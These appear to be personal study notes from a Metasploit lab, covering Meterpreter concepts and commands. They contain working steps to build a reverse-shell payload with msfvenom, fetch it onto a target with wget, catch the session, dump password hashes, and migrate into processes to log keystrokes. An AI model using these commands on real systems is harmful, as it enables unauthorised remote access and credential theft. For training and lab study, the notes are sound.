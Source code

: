 - Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).
  ```
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<port> -f elf > rev_shell.elf
  ```
- Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_10.10.190.253:9000/shell.elf to download it to the target machine).
  ```
  attack: python3 -m http.server
  target: wget http://<attack_ip>:8000/rev_shell.elf
  ```
- Get a meterpreter session on the target machine.
  ```
  attack: use exploit/multi/handler
          set payload linux/x86/meterpreter/reverse_tcp
          set lhost <attack_ip>
          set lport <port>
          run
  target: ./rev_shell.elf
  ```
- Use a post exploitation module to dump hashes of other users on the system.
  ```
  background
  use post/linux/gather/hashdump
  set session <num>
  run
  ```
  > $6$qK0Kt4UO$HuCrlOJGbBJb5Av9SL7rEzbxcz/KZYFkMwUqAE0ZMDpNRmOHhPHeI2JU3m9OBOS7lUKkKMADLxCBcywzIxl7b.

# Metasploit: Meterpreter
- **Meterpreter** is a Metasploit payload
  - runs on **target** system, but is not installed on it
    - runs in **RAM** and does not write itself to disk to avoid detection by antivirus
      - antivirus software scan new files on disk by default
    - seen as a **process**, not a file
  - uses **encrypted communication** to try to avoid IPS, IDS detection
  - **?** acts as an agent within a command and control architecture
- Most antivirus software will detect Meterpreter.
- **Staged** payloads are sent in two steps:
  1. An initial payload (stager) is sent.
  2. This stager requests the rest of the payload.
- **Inline** payloads are sent in a single step.
- Meterpreter payloads are also divided into staged and inline versions.
- `msfvenom --list payloads | grep meterpreter` - list available Meterpreter versions
- Three factors for deciding which Meterpreter version to use:
  - target OS
  - components available on target system (Is python installed? IS this a php website?)
  - network connection types available on target system
- running `help` is always a good idea
- Meterpreter provides three primary categories of tools;
  - Built-in commands
  - Meterpreter tools
  - Meterpreter scripting
- `getuid` - display the user with which Meterpreter is currently running, gives idea of possible privilege level on the target system
- `ps` - list running processes, give PID information for migration
- `migrate <PID>`
  - Migrating to another process will help Meterpreter interact with it
  - For example, if you see a word processor running on the target, you can migrate to it and start capturing keystrokes sent by the user to this process.
  - Migrating to another process may also help you to have a more stable Meterpreter session.